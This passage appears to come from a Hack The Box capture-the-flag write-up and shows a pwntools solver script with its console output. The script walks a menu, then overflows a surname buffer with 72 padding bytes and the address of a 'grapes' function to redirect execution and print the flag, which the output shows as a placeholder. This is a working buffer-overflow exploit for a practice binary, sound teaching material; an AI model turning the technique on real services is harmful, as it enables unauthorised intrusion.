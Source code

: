 ```python
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP}:{PORT}\n')

e = ELF(fname)

# Reduce coinds to call save_creds
[sla('>> ', '2') for i in range(3)]

# Yes
sla('>>', '1')

# Fill name
sla('name: ', 'htb')

# Overflow the buffer
sla('surname: ', b'A'*72 + p64(e.sym.grapes))

# Read flag
print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0:1337

Flag --> HTB{f4k3_fl4g_f0r_writ3up}
```
